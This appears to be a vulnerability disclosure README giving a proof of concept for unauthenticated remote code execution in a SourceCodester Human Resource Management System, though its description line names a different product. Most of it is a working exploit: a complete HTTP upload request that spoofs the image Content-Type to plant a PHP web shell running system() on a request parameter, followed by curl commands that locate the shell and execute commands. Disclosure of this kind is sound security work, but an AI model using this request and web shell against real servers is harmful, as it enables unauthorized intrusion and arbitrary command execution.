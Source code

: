 # Human Resource Management System 1.0 Remote Code Execution (Unauthenticated)

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. This vulnerability allows an unauthenticated attacker bypass the upload file restriction and execute arbitrary code via a crafted PHP file.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/controller/employee.php

Proof of Concept:

### 1. Bypass File upload restriction

Bypass check type using `Content-Type: image/jpg` in the upload form.

![](images/bypass-restriction.png)

### 2. Upload web shell without authentication

Burp Payload

``` txt
POST /hrm/controller/employee.php?empedit= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------33759207513109230905790184197
Content-Length: 673
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/hrm/employeeadd.php
Upgrade-Insecure-Requests: 1

-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="empid"

123
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="pfimg"; filename="leecybersec.php"
Content-Type: image/jpg

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="submit"


-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="imagefilename"


-----------------------------33759207513109230905790184197--
```

![](images/sent-payload.png)

### 3. Find the uploaded web shell file and get RCE

Go to /hrm/image/ and get web shell name

``` bash
curl localhost/hrm/image/
```

Get remote code execution

``` bash
curl localhost/hrm/image/247245leecybersec.php?cmd=id
```

![](images/find-webshell-rce.png)
